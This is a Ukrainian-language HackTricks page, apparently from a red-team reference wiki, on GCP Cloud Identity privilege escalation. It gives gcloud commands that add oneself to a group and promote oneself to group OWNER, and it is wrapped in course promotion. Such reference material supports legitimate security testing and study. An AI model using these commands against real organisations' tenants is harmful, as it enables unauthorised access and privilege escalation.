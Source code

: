 # GCP - Підвищення привілеїв Cloudidentity

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа хакінгу HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа хакінгу HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}

## Cloudidentity

Для отримання додаткової інформації про службу cloudidentity, перевірте цю сторінку:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### Додайте себе до групи

Якщо ваш користувач має достатньо дозволів або група налаштована неправильно, він може зробити себе членом нової групи:

{% code overflow="wrap" %}
```bash
gcloud identity groups memberships add --group-email <email> --member-email <email> [--roles OWNER]
# If --roles isn't specified you will get MEMBER
```
### Зміна членства в групі

Якщо ваш користувач має достатньо дозволів або група налаштована неправильно, він може зробити себе ВЛАСНИКОМ групи, до якої він належить:
```bash
# Check the current membership level
gcloud identity groups memberships describe --member-email <email> --group-email <email>

# If not OWNER try
gcloud identity groups memberships modify-membership-roles --group-email <email> --member-email <email> --add-roles=OWNER
```
{% endcode %}

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа взлому AWS для Червоної Команди (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа взлому GCP для Червоної Команди (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

